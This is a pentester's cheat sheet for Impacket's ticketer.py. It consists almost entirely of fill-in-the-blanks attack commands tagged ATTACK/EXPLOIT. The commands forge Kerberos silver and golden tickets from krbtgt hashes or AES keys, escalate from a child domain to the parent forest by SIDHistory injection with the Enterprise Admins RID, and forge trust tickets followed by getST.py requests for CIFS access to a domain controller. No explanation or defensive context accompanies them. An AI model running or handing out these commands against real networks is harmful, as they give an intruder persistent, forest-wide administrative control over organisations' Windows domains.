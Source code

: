 # ticketer (imp)

% impacket-kerberos, windows, kerberos, 88



## silver ticket - generate TGS tickets into ccache format which can be converted further into kirbi.
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <domain_sid> -domain <domain> -spn <SPN> <user>
```

## golden ticket  
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_hash> -domain <domain_FQDN> -domain-sid <domain_sid> <user>
```

## golden ticket - child-parent trust SIDHistory injection (nthash)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
if user = administrator no need of -user-id
```
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <child_somain_sid> -domain <child_domain_FQDN> -extra-sid <root_domain_sid>-<rid|519> -user-id <user_rid> <user|jubeaz>
```

## golden ticket - child-parent trust SIDHistory injection (aeskey)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -aesKey <krbtgt_aes_key> -domain-sid <child_somain_sid> -domain <child_domain_FQDN> -extra-sid <root_domain_sid>-<rid|519>  <user|jubeaz>
```

## trust ticket (referral) -  
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
RID
    512 Domain Admins
    519 Enterprise admins
then 
    export KRB5CCNAME=/tmp/jubeaz.ccache   
    getST.py -k -no-pass -spn <cifs>/<dc_fqdn> <src_domain_FQDN>/<user>@<domain_fqdn> -debug
```
ticketer.py -nthash <trust_nthash> -domain-sid "src_domain_SID" -domain "src_domain_FQDN" -extra-sid "<dest_domain_SID>-<RID|519>" -spn "krbtgt/<dest_domain_FQDN>" <user|jubeaz>
```